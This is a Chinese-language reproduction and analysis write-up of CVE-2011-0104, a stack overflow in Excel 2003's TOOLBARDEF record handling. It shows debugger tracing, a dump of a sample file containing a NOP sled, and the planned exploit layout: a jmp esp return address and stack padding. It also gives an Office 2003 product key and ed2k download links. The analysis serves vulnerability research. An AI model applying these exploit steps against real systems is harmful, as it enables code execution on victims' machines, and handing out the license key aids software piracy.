# cve-2011-0104 Microsoft Excel TOOLBARDEF Record栈溢出漏洞复现

## 测试环境

|            | 推荐环境                | 版本                      |
| ---------- | ----------------------- | ------------------------- |
| 操作系统   | Windows XP Professional | Service Pack 3 (x86)      |
| 漏洞软件   | Office                  | 2003 Service Pack 3 (x86) |
| 虚拟机     | VMware                  | 16.2.3                    |
| 调试器     | OllyDBG                 | 2.0.1-32位                |
| 反汇编工具 | IDA Pro                 | 6.8                       |

影响范围：

Microsoft Office XP SP3, Office 2003 SP3, Office 2007 SP2, Office 2010, Office 2004 and 2008 for Mac, Office for Mac 2011

## 环境搭建

https://msdn.itellyou.cn/

Windows XP Professional with Service Pack 3 (x86)

```
ed2k://|file|zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso|630239232|CD0900AFA058ACB6345761969CBCBFF4|/
```

需要先安装office标准版在利用补丁升级到sp3

Office Standard Edition 2003 (Simplified Chinese)

```
ed2k://|file|sc_office_2003_std.iso|429031424|DB59D0F8CC31EF72CC15D675FC9B7C34|/
```

Office 2003 Service Pack 3 (x86)

```
ed2k://|file|zh-Hans_office_2003_service_pack_3_x86.exe|142028200|93157828F4CDA043AD266EC492599111|/
```

**office2003通用密钥序列号**

J2MV9-JYYQ6-JM44K-QMYTH-8RB2W

## 漏洞复现

打开样本exploit.xlb 出现报错



## 漏洞分析

打开excel，使用windbg附加，使用命令g，然后打开src.xlb文件，程序中断：



中断在300e06f7

查看栈里的数据



可以看到大量的0x90字节覆盖了栈中的数据
利用ida打开excel.exe 查看包含地址 300e06f7 的函数





包含该地址指令的函数开始地址为 300e05ad ,利用x32dbg，附加excel时在 300e05ad 处断点,然后运行程序，中断时在栈顶使用硬件断点



点击运行，程序中断在了300DE834 rep movsd 指令上，这条指令时将esi地址处的数据复制到edi地址的地方，覆盖到了我们刚刚硬件断点的地方了，



使用ida找到包含该地址指令的函数，使用F5查看伪代码



发现是由于memcpy在复制数据时发生的栈溢出，而复制长度v7 有两个数据来源，是取自（v4）和（v6-v5）中小的那一个，其中v4来自传入的参数a3，v6和v5是两个内存中的值，使用动调看看

在300DE834 rep movsd 的上一条指令断点 再次附加样本，成功中断到300DE834 rep movsd 的上一条指令，但是ecx = 1 ，只是复制4个字节不是我们需要的，继续运行，看看下一个。

第二次复制时 ecx = 0xc0 根据rep movsd 每次复制4个字节 需要复制的数据大小为0xc0*4 = 0x300字节的数据 此时EDI = 0x001396bb + 0x300 = 0x001399bb 这次复制数据会溢出，导致程序会在300e06f7异常中断，异常中断时esp = 001396b0 ebp = 0013971c



### 污点追踪

接下来就看看溢出长度0x300的来源，也就是污点追踪

我们在300DE7EC处断点 看看传入的参数（300DE7EC是发生复制数据溢出的函数的起始地址）



结合ida知道v4来自传入的参数a3，此时a3就是0x300 那我们根据返回地址 3070DF42 去上层函数看看，查看伪代码发现有6百多行，这里简单列出重点的地方

传入的a3 来自上层函数的v74 

v74来自v13

v13的值来自于sub_300DE7C5函数的返回值



现在去sub_300DE7C5函数看看，发现这个函数像是在从文件中读数据



我们下个断点在v13获取长度时，也就是地址3070DF16处看看，同时利用py-office-tools工具辅助查看数据复制的情况



```shell
C:> python2 pyOffice.py -g src.xlb > src.txt

[*]Opening file src.xlb
[*]Listing streams/storages:

Warning: OLE type 0x8 not in types

[**]Detected Excel file src.xlb
********************************************************************************
[*]Dumping Workbook stream 0x3f7a (16250) bytes...

[ii]BOF record: current count 1
[0]Record BOF [0x809 (2057)] offset 0x0 (0), len 0x10 (16) (Beginning of File)
        WORD vers = 0x600 (1536)
        WORD dt = 0x400 (1024)
        WORD rupBuild = 0x1faa (8106)
        WORD rupYear = 0x7cd (1997)
        DWORD bfh = 0x500c9 (327881)
        DWORD sfo = 0x406 (1030)
[1]Record TOOLBARDEF [0xa7 (167)] offset 0x14 (20), len 0x4 (4) (Toolbar Definition:)
        BYTE fUnnamed = 0xb0 (176)
        WORD cbtn = 0xc0f (3087)
        Field 'rgbbtndef' is variable length, dumping rest of record:
            0000000000   00                                                 .
[2]Record CONTINUE [0x3c (60)] offset 0x1c (28), len 0x300 (768) (Continues Long Records)
        Field 'data' is variable length, dumping rest of record:
            0000000000   40 DF D6 D5 3B DF D6 D5 3B 00 00 00 00 00 00 00    @...;...;.......
            0000000010   00 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000020   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000030   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000040   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000050   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000060   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000070   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000080   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000090   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000A0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000B0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000C0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000D0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000E0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            00000000F0   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000100   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000110   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000120   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000130   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000140   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000150   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000160   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000170   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000180   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90    ................
            0000000190   90 90 90 00 62 00 72 00 69 00 31 00 1E 00 DC 00    ....b.r.i.1.....
            00000001A0   00 00 08 00 90 01 00 00 00 02 00 FA 07 01 43 00    ..............C.
            00000001B0   61 00 6C 00 69 00 62 00 72 00 69 00 31 00 1E 00    a.l.i.b.r.i.1...
            00000001C0   68 01 01 00 38 00 BC 02 00 00 00 02 00 FA 07 01    h...8...........
            00000001D0   43 00 61 00 6D 00 62 00 72 00 69 00 61 00 31 00    C.a.m.b.r.i.a.1.
            00000001E0   1E 00 2C 01 01 00 38 00 BC 02 00 00 00 02 00 FA    ..,...8.........
            00000001F0   07 01 43 00 61 00 6C 00 69 00 62 00 72 00 69 00    ..C.a.l.i.b.r.i.
            0000000200   31 00 1E 00 04 01 01 00 38 00 BC 02 00 00 00 02    1.......8.......
            0000000210   00 FA 07 01 43 00 61 00 6C 00 69 00 62 00 72 00    ....C.a.l.i.b.r.
            0000000220   69 00 31 00 1E 00 DC 00 01 00 38 00 BC 02 00 00    i.1.......8.....
            0000000230   00 02 00 FA 07 01 43 00 61 00 6C 00 69 00 62 00    ......C.a.l.i.b.
            0000000240   72 00 69 00 31 00 1E 00 DC 00 00 00 11 00 90 01    r.i.1...........
            0000000250   00 00 00 02 00 FA 07 01 43 00 61 00 6C 00 69 00    ........C.a.l.i.
            0000000260   62 00 72 00 69 00 31 00 1E 00 DC 00 00 00 14 00    b.r.i.1.........
            0000000270   90 01 00 00 00 02 00 FA 07 01 43 00 61 00 6C 00    ..........C.a.l.
            0000000280   69 00 62 00 72 00 69 00 31 00 1E 00 DC 00 00 00    i.b.r.i.1.......
            0000000290   3C 00 90 01 00 00 00 02 00 FA 07 01 43 00 61 00    <...........C.a.
            00000002A0   6C 00 69 00 62 00 72 00 69 00 31 00 1E 00 DC 00    l.i.b.r.i.1.....
            00000002B0   00 00 3E 00 90 01 00 00 00 02 00 FA 07 01 43 00    ..>...........C.
            00000002C0   61 00 6C 00 69 00 62 00 72 00 69 00 31 00 1E 00    a.l.i.b.r.i.1...
            00000002D0   DC 00 01 00 3F 00 BC 02 00 00 00 02 00 FA 07 01    ....?...........
            00000002E0   43 00 61 00 6C 00 69 00 62 00 72 00 69 00 31 00    C.a.l.i.b.r.i.1.
            00000002F0   1E 00 DC 00 01 00 34 00 BC 02 00 00 00 02 00 FA    ......4.........
```

此时eax = 3F7A 和样本文件分析工具中 [*]Dumping Workbook stream 0x3f7a (16250) bytes... 一样 是从文件中读东西，索引值没有大于3F7A不会跳转



从文件中读取到0x300放到eax返回，从这知道复制的长度0x300也是从文件中得到的



## 漏洞利用

知道0x300数据的来源，我们接着对异常发生那块进行研究，看看如何构造exp

发生异常前 有一个比较函数 通过动调发现，esi恒等于0，我们可以控制eax等于0，跳过这块异常快速的返回 而eax就来自 ebp + 2c 也就是0x13971c + 0x2c = 0x139748 的位置



同时返回地址为0x139720处的数据



开始构造exp，需要注意：

0x139748地址保存的数需要为0 

程序最后执行的返回指令是ret 0x2C，所以在返回地址的后面要预留0x2C字节

0x139720地址保存的数时jmp esp的地址 搜索得到 0x7C86467B处存有



也可以利用工具findjmp.exe



根据我们当时动调时的情况可以快速帮我确定覆盖地址 ，0x001396bb 开始覆盖


是从文件这里开始覆盖

